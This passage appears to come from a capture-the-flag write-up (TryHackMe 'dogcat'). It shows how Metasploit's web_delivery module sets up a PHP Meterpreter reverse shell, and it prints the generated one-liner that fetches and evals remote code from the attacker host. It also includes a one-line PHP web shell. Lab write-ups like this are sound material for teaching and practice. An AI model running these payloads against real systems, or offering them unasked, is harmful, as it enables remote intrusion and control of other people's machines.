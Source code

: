 #### **<strong><font color="MediumPurple">via Metasploit's web delivery:</font></strong>**
The other way to get a more stabilized shell is via **Metasploit's [Web Delivery Script](https://www.rapid7.com/db/modules/exploit/multi/script/web_delivery)**, which is used to generate payloads that can be delivered to a target system through a web page or any other way where we can have remote code execution.

First of all, let's launch the **Metasploit console** and use the **web delivery** module:

```bash
$ msfconsole -q
msf6 > use exploit/multi/script/web_delivery  
```

Next, we need to set the language for generating the payload that will be understood by the target, which is in our case, `php`:

```bash
msf6 exploit(multi/script/web_delivery) > set target 1
```

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/thm-dogcat/2023-04-28 15_50_39-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Web delivery Targets</i></center>
<br/>

Then, we set the `payload`,  `SRVHOST`, `SRVPORT`, `LHOST` and run the exploit:

```bash
msf6 exploit(multi/script/web_delivery) > set payload php/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set SRVHOST <tun0_IP>
msf6 exploit(multi/script/web_delivery) > set SRVPORT 80
msf6 exploit(multi/script/web_delivery) > set LHOST <tun0_IP>
msf6 exploit(multi/script/web_delivery) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.8.16.233:4444 
[*] Using URL: http://10.8.16.233/DTvVzG5IyLN
[*] Server started.
[*] Run the following command on the target machine:
php -d allow_url_fopen=true -r "eval(file_get_contents('http://<tun0_IP>/DTvVzG5IyLN', false, stream_context_create(['ssl'=>['verify_peer'=>false,'verify_peer_name'=>false]])));"
```


[Output]: <?php system($_GET['cmd']); ?>